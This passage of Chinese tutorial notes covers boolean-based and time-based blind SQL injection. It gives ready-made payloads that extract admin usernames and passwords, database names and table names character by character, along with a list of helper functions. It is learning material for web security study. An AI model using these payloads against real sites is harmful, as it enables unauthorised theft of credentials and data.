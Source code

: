 - **猜解内容长度**

  ```
  假如已经知道字段名为  id   username password
  'or (select Length(concat(username,"---",password)) from admin limit 0,1) = 16  --+
  ```

- **猜解内容**

  ```
  'or mid((select concat(username,"-----",password) from admin limit 0,1),1,1) = 'a' --+
  或者
  'or ORD(mid((select concat(username,"-----",password) from admin limit 0,1),1,1)) > 100 --+    ASCII码猜解
  或者直接猜解
  'or (Select concat(username,"-----",password) from admin limit 0,1 ) = 'admin-----123456'   --+
  ```

#### 基于时间的SQL盲注（最后考虑）

对于某些 SQL 注入页面，可能页面中任何信息都不返回，甚至连记录是否存在都不告诉你，这时布尔型盲注也就无效了。但是基于 `sleep()` 函数可以实现延时查询，我们可以构造一个判断语法，如果返回结果为真，则延时 5 秒再进行查询操作。那么我们就可以通过观察提交 SQL 注入语句后，页面响应是否有延时卡顿，来判断我们构造的 SQL 语句是否成立。

延时判断，if、sleep。

- if(expr1, expr2,expr3)

  如果expr1是TRUE，则IF0的返回值为expr2;否则返回值则为expr3。if()的返回值为数字值或字符串值。具体情况视其所在语境而定。

  若数据库名为a，则回显123，否则回显456：

  ![image-20220727200138619](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727200138619.png)

- if + sleep

  若数据库名为a，则延时1s，否则不延时。

  ![image-20220727200249771](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727200249771.png)

```mysql
// 猜解数据库名长度，猜中了延时5s
id=1 and sleep(if(length(database())=8,5,0))--+

// 逐个猜解数据库名，猜中了延时5s
id=1 and if(ascii(substr(database(),1,1))=115,sleep(5),1)--+

// 逐个猜解表名，猜中了延时5s
id=1 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101,sleep(3),0)--+
```



```
like 'ro%'						# 判断ro或ro...是否成立
regexp '^xiaodi[a-z]'			# 匹配xiaodi及xiaodi...等if(条件,5,0)
ord()                           # 转换成ascii码
mid (a, b, c)					# 从位置b开始，截取a字符串的c个字符
substr(a, b, c)					# 与mid函数一样，从b位置开始，截取字符串a的c长度
left (database(),1), database() # left(a,b)从左侧截取a的前b位
length(database())=8		    # 判断数据库database()名的长度
ord=ascii ascii(x)=97 			# 判断x的ascii码是否等于97
```
